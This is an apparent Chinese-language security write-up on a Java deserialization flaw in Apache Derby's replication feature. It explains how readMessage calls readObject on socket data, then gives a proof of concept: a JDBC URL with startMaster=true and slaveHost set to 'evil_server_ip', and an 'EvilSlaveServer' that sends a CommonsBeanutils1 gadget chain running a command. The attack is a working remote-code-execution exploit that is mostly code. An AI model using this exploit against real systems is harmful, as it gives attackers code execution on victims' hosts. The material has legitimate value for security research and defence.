


## 原理

在`org.apache.derby.impl.store.replication.net.SocketConnection`中进行socket连接中



在`readMessage`方法中调用了输入流的`readObject`方法

之后在`ReplicationMessageTransmit$MasterReceiverThread`类存在`readMessage`方法的调用



因为`ReplicationMessageTransmit`类是通过配置中的`startMaster=true` 和 `slaveHost=127.0.0.2`将数据库从master复制到了slave中去的，所以如果我们可以搭建恶意服务器，然后受害端就会接收获取的数据，之后进行反序列化操作

## 依赖

```xml
<dependency>
    <groupId>org.apache.derby</groupId>
    <artifactId>derby</artifactId>
    <version>10.10.1.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.4</version>
</dependency>
```

## POC

```java
public static void main(String[] args) throws Exception{
    Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
    DriverManager.getConnection("jdbc:derby:webdb;startMaster=true;slaveHost=evil_server_ip");
}
```

`evil server`

```java
public class EvilSlaveServer {
    public static void main(String[] args) throws Exception {
        int port = 4851;
        ServerSocket server = new ServerSocket(port);
        Socket socket = server.accept();
        socket.getOutputStream().write(Serializer.serialize(new CommonsBeanutils1().getObject("calc")));
        socket.getOutputStream().flush();
        Thread.sleep(TimeUnit.SECONDS.toMillis(5));
        socket.close();
        server.close();
    }
}
```

